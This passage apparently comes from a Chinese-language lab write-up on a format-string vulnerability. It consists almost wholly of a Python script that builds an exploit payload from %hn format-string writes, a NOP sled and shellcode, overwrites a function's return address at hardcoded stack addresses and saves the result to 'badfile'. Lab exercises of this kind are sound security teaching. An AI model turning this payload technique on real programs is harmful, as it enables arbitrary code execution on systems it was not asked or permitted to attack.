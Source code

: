 
完整payload:

$format\ string+NOP...NOP（对齐）+地址3+地址1+地址2+NOP*n+shellcode$

```python
N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_64

# Put the shellcode somewhere in the payload
start = 1500-len(shellcode)
content[start:start + len(shellcode)] = shellcode

############################################################

buf_addr = 0x00007fffffffe3d0  # buffer起始地址
ebp_addr = 0x00007fffffffe310  # myprintf ebp的地址
ret_addr = ebp_addr + 0x8  # myprint return address

shell_code_addr = buf_addr + 1500 - len(shellcode)  # shellcode起始地址
# print('%#x'%shell_code_addr)
# 0x7fffffffe907

s1 = 0xe907  # shell_code_addr 0-16位
s1_addr = ret_addr
s2 = 0xffff  # 16-32位
s2_addr=ret_addr+0x2
s3 = 0x7fff  # 32-48位
s3_addr=ret_addr+0x4
# 最高12位全0

# format string
# 按照从小到大的顺序 0x7fff→0xe907→0xffff
s = "%." + str(0x7fff) + "x" + "%40$hn" + "%." + str(0xe907-0x7fff) + "x" + "%41$hn" + "%." + str(0xffff-0xe907) + "x" + "%42$hn"
fmt = (s).encode('latin-1')
# print("fmt:"+str(len(fmt)))
content[0:0 + len(fmt)] = fmt

# format string后面加上需要被改变的2字节值的地址
content[48:56] = (s3_addr).to_bytes(8, byteorder='little')
content[56:64] = (s1_addr).to_bytes(8, byteorder='little')
content[64:72] = (s2_addr).to_bytes(8, byteorder='little')

############################################################

# Save the format string to file
with open('badfile', 'wb') as f:
    f.write(content)
```
